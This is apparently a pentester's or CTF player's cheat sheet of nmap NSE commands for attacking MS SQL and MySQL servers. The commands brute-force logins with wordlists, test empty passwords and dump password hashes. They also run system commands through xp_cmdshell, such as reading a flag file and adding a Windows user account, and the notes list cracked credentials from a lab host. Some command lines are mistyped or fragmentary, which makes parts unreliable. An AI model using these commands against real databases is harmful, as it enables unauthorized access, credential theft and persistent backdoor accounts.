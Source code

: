 - --script ms-sql-info
- ms-sql-ntlm-info --script-args mssql.instance-port=1433

- ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-password.txt

- --script mysql-empty-password 
- --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-query="SELECT * FROM* master..syslogins" -On output.txt

- --script=mysql-empty-dump-hashes --script-args="username='root' ,password='' "

- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria, ms-sql-xp-cmdshell.cmd="type c:\\flag.txt"


--script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt


enumarate mysql 
- nmap -p 1433 10.6.26.127 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt, passdb=/root/Desktop/wordlist/100-common-passwords.txt 


--script ms-sql-query --script-args mssql.username=sa,mssql.password=sa,ms-sql-query.query="SELECT * FROM master..syslogins"



find files in windows and execute commands in target machine

nmap -p 1433 10.6.26.127 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="dir \\ ****flag**** "


```
nmap -p 1433 <ip> --script ms-sql-dump-hashes
```


  Credentials found:
|       sa:<empty> => Login Success
|       auditor:jasmine1 => Login Success
|       admin:anamaria => Login Success
|_      dbadmin:bubbles1 => Login Success


**ms-sql-empty-password,ms-sql-dump-hashes**


nmap -p 445 --script ms-sql-discover,ms-sql-empty-password,ms-sql-xp-cmdshell <host>

nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user test test /add" <host>